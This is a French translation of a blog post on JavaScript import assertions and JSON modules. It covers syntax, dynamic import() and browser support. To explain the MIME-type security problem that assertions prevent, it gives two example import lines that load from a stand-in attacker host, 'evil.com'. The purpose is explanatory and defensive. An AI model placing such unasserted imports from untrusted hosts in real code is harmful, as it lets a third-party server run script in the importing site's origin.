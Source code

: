 ```yaml
---
title: 'Assertions d'importation'
author: 'Dan Clark ([@dandclark1](https://twitter.com/dandclark1)), importateur assertif d'assertions d'importation'
avatars:
  - "dan-clark"
date: 2021-06-15
tags:
  - ECMAScript
description: 'Les assertions d'importation permettent aux instructions d'importation de module d'inclure des informations supplémentaires en plus du spécificateur de module'
tweet: ""
---
```


La nouvelle fonctionnalité [assertions d'importation](https://github.com/tc39/proposal-import-assertions) permet aux instructions d'importation de module d'inclure des informations supplémentaires en plus du spécificateur de module. Une utilisation initiale de cette fonctionnalité est de permettre l'importation de documents JSON sous forme de [modules JSON](https://github.com/tc39/proposal-json-modules) :

<!--truncate-->
```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
import json from './foo.json' assert { type: 'json' };
console.log(json.answer); // 42
```

## Contexte : Modules JSON et type MIME

Une question naturelle à poser est pourquoi un module JSON ne pourrait pas simplement être importé comme suit :

```javascript
import json from './foo.json';
```

La plateforme web vérifie le type MIME d'une ressource de module pour sa validité avant de l'exécuter, et en théorie ce type MIME pourrait également être utilisé pour déterminer s'il faut traiter la ressource comme un module JSON ou JavaScript.

Cependant, il existe un [problème de sécurité](https://github.com/w3c/webcomponents/issues/839) en se basant uniquement sur le type MIME.

Les modules peuvent être importés de manière inter-origin, et un développeur pourrait importer un module JSON d'une source tierce. Il pourrait considérer cela comme fondamentalement sûr même venant d'une source non fiable tant que le JSON est correctement désinfecté, puisque l'importation de JSON n'exécutera pas de script.

Cependant, un script tiers peut en réalité être exécuté dans ce scénario car le serveur tiers pourrait répondre de manière inattendue avec un type MIME JavaScript et une charge utile JavaScript malveillante, exécutant du code dans le domaine de l'importateur.

```javascript
// Exécute JS si evil.com répond avec un
// type MIME JavaScript (par exemple `text/javascript`) !
import data from 'https://evil.com/data.json';
```

Les extensions de fichier ne peuvent pas être utilisées pour déterminer le type de module car elles [ne sont pas un indicateur fiable du type de contenu sur le web](https://github.com/tc39/proposal-import-assertions/blob/master/content-type-vs-file-extension.md). Nous utilisons donc des assertions d'importation pour indiquer le type de module attendu et prévenir ce piège d'escalade de privilèges.

Lorsqu'un développeur souhaite importer un module JSON, il doit utiliser une assertion d'importation pour spécifier qu'il s'agit de JSON. L'importation échouera si le type MIME reçu du réseau ne correspond pas au type attendu :

```javascript
// Échoue si evil.com répond avec un type MIME non-JSON.
import data from 'https://evil.com/data.json' assert { type: 'json' };
```

## `import()` dynamique

Les assertions d'importation peuvent également être passées à [`import()` dynamique](https://v8.dev/features/dynamic-import#dynamic) avec un nouveau deuxième paramètre :

```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
const jsonModule = await import('./foo.json', {
  assert: { type: 'json' }
});
console.log(jsonModule.default.answer); // 42
```

Le contenu JSON est l'exportation par défaut du module, il est donc référencé via la propriété `default` sur l'objet retourné par `import()`.

## Conclusion

Actuellement, la seule utilisation spécifiée des assertions d'importation est pour la spécification du type de module. Cependant, la fonctionnalité a été conçue pour permettre des paires clé/valeur d'assertions arbitraires, de sorte que des utilisations supplémentaires pourraient être ajoutées à l'avenir si cela devient utile pour restreindre les importations de modules d'autres manières.

En attendant, les modules JSON avec la nouvelle syntaxe d'assertions d'importation sont disponibles par défaut dans Chromium 91. [Les scripts de modules CSS](https://chromestatus.com/feature/5948572598009856) arrivent bientôt également, utilisant la même syntaxe d'assertion de type de module.

## Prise en charge des assertions d'importation

<feature-support chrome="91 https://chromestatus.com/feature/5765269513306112"
                 firefox="non"
                 safari="non"
                 nodejs="non"
                 babel="oui https://github.com/babel/babel/pull/12139"></feature-support>
